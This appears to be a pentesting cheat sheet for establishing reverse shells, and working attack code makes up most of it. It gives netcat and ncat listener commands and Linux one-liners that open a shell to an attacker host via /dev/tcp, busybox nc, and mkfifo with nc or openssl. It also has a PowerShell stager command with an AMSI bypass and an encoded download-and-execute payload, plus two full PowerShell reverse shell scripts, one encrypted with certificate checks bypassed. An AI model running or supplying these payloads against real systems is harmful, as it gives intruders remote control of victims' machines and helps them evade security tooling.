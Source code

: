 There are a handful of killer resources for establishing shells.
Go-to-resource for simple reverse shells: https://revshells.com

### Attacker (Listener)
---
``nc`` is generally used as the listener for a reverse shell, however ``ncat`` is Nmap's fork of ``nc`` which provides optional SSL support for encrypted communications.

Start up a standard reverse shell listener with the following command:

```shell
nc -lvnp <port>
```

Start up a reverse shell listener with SSL support:

```shell
ncat --ssl -lvnp <port>
```

### Linux/Mac
---
For standard, non-SSL reverse shells I recommend referencing https://revshells.com.

On Linux, the sheer quantity of dependencies and programs that may or may not be installed makes it difficult to recommend a commonly used command, but I will provide a couple common ones below.

```shell
# bash -i Callback
sh -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

# Busybox nc -e
busybox nc <attacker_ip> <port> -e sh

# mkfifo / nc Callback
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <port> >/tmp/f
```

For SSL encrypted reverse shells, the victim should either have ``ncat`` installed or ``openssl``

```shell
# ncat Encrypted Callback
ncat --ssl <attacker_ip> <port>

# mkfifo / openssl Encrypted Callback
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | openssl s_client -connect <attacker_ip>:<port> 2>&1 > /tmp/f & disown
```

### Windows
---
Reference https://github.com/tylerdotrar/PoorMansArmory for a powerful collection of reverse shell building tools.

```powershell
# Generate a Reverse Shell
Get-RevShell <attacker_ip> <listening_port> -AmsiBypass -WebClientURL "http(s)://<ip_addr>" -Base64 > ./downloads/revshell

# Generate a Stager Pointing to the Reverse Shell
Get-Stager -PayloadURL "http(s)://<ip_addr>/d/revshell" -Base64
# Output
powershell -nop -ex bypass -e aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4
ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwACgAcwApADoALwAvADwAaQBwAF8AYQBkAGQAcgA+AC8AZAAvAHIAZQB2AHMAaABlAGwAbAAnACkAKQA=
```

Below is a custom PowerShell 5.0 Reverse Shell Payload:
```powershell
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = $Client.GetStream()
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```

Below is a custom PowerShell 5.0 Encrypted Reverse Shell Payload:
```powershell
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>
$SSC = @'
using System;
using System.Net;
using System.Net.Sockets;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static bool Bypass
    (
        Object obj,
        X509Certificate cert,
        X509Chain chain,
        SslPolicyErrors errors
    )
    {
        return true;
    }
    public static SslStream Stream(TcpClient c)
    {
        return new SslStream(c.GetStream(), false, new RemoteCertificateValidationCallback(Bypass), null);
    }
}
'@
Add-Type $SSC
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = [SelfSignedCerts]::Stream($Client)
$Stream.AuthenticateAsClient("")
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```



